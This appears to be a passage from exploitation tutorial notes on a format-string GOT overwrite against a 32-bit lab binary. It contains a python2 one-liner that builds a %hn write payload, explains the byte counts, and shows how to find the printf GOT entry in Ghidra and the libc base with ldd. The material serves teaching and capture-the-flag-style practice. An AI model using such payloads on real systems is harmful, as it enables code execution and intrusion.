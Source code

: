 ```
    %61496x will write 61496 bytes on the standard output.
    %4$hn will write 8 + 61496 = 61504 bytes (or 0xf040) at the first address specified (0x0804c00c).
    %1951x will write 1951 bytes on the standard output.
    %5$hn will write 8 + 61496 + 1951 = 63455 (or 0xf7df) at the second address specified (0x0804c00e).

python2 -c 'print("\x0c\xc0\x04\x08\x0e\xc0\x04\x08%61496x%4$hn%1951x%5$hn")' > payload

* Based on excellent blogpost: https://axcheron.github.io/exploit-101-format-strings/
```
{% endcode %}

**Obtaining GOT.printf address**:

Load the binary in <mark style="color:yellow;">**Ghidra**</mark>, open up the <mark style="color:yellow;">**Program Tree**</mark>, and inside of the <mark style="color:yellow;">**`got.plt`**</mark>, you will see an <mark style="color:yellow;">**EXTERNAL reference to**</mark><mark style="color:yellow;">**&#x20;**</mark><mark style="color:yellow;">**`printf()`**</mark>, <mark style="color:yellow;">**use that address**</mark>, and you will have your <mark style="color:yellow;">`GOT.printf`</mark> <mark style="color:yellow;">address</mark>.

<figure><img src="../.gitbook/assets/image (7) (1) (1) (1).png" alt=""><figcaption><p>Program Trees</p></figcaption></figure>

<figure><img src="../.gitbook/assets/image (8) (1) (1).png" alt=""><figcaption><p>Listing View // Obtaining <code>GOT.printf</code> address</p></figcaption></figure>

**Obtain `libc` base address**:

```
ldd got_overwrite
libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xf7d7f000)
```
